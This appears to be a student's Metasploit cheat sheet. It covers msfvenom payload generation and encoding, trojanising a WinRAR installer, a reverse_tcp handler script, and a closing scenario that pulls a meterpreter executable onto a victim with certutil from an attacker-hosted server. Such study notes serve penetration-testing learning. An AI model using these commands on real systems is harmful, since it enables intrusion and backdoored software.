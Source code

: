 # Metasploit Framework

TIP: if `SeImpersonatePrivilege` is available after `getprivs`, it is likely that you can `getsystem` to elevate the privilege

### MSFDB
- sudo systemctl enable postgresql //enacle postgresql on startup
- sudo systemctl start postgresql //start the service
- sudo systemctl status postgresql //check postgresql status
- sudo msfdb //start msfdb
- sudo msfdb init //initialise db

### MSFConsole
- search -h to learn about search options
- Importing nmap scans: `db-import <path of nmap xml output>`
- To perfoem a scan on internal network through the initial victim, run `run autoroute -s <IP>` in meterpreter


### MySQL with MSF
- useful modules: version, schemadum, login, file_enum
- modules under /admin/ will need cred to use: mysql_enum, mysql_sql
- TIP: can use `loot`, and `creds` to see credentials etc

### Nessus with MSF
- Do the scan with nessus and export it in XML `export nessus`
- Load it in with `db_import <location of nessus scan>`
- use the `vulns` command to see possible vulnerabilies

### WMAP (web app) vuln scan with MSF
- Comes with msf so just type: `load wmap` and to see all the commands available we can do `wmap_` and press tab
- To show the current modules being used to scan the target we say: `wmap_run -t`
- use `wmap_vulns -l` to list all vulns after a scan


### MSFVenom
- To get help, we can say: `msfvenom --list <the option you need help>` eg:`msfvenom --list formats`, `msfvenom --list payloads`
- Sample Msfvenom command: `msfvenom -p <payload type> LHOST=<our IP> LPORT=<our port> -f <file format> > <Location of the output>`

### Encoding
- useful encoders are shikata_ga_nai and cmd/powershell_base64
- To list out encoders `msfvenom --list encoders`
- Sample command: `msfvenom -p <payload> LHOST=<IP> LPORT=<IP> -e x86/shikata_ga_nai -f exe > <location>`
- For iteration, we can specify by using `-i 10` or `iterations 10`

### Injecting Payloads into PE (-x, -k)
- sample command: `msfvenom -p <payload> LHOST=<IP> LPORT=<IP> -e x86/shikata_ga_nai -f exe -x <Path to the exe eg: ~/Downloads/wrar602.exe> > <location>`

### MSF Resource Scripts for automation (like bash scripts)
- All resource scripts are located at: /usr/share/metasploit-framework/scripts/resource/ 
- Example of a simple script below:
```handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```
- To run the above script use: msfconsole -r handler.rc //-r flag for resource script
- Another example below
```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.7
run
```
- Another example below
```db_status.rc
db_status
workspace
workspace -a Test
```
- If you are already inside msfconsole, you can load up a resource script by: `resource ~/usr/share/metasploit-framework/scripts/resource/<scriptName>`
- To export a script from inside the console, do your actions, and terminate after typing run, and type:`makerc <$PATH/ScriptName>`

## Exploitation

### HTTP file server
- difference of http file server and typical http server is that it's just use to file share and no other usage
- popular servers include: Rejetto HFS
- Rejetto V2.3 is vuln to RCE attack

**Nice practical situation encountered**
Scenario: when using the tomcat_jsp_upload_bypass module, a cmd was popped in msf, but we want a meterpreter for all the good stuff, so what can we do now? We can 
use `msfvnom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=1234 -f exe > meterpreter.exe` to gen a payload, host a simple python server on our(attacker) 
machine using `sudo python -m SimpleHTTPServer 80` and use the cmd to `certutil -urlcache -f http://<IP>/meterpreter.exe meterpreter.exe, then we can open a handler
and catch the shell.








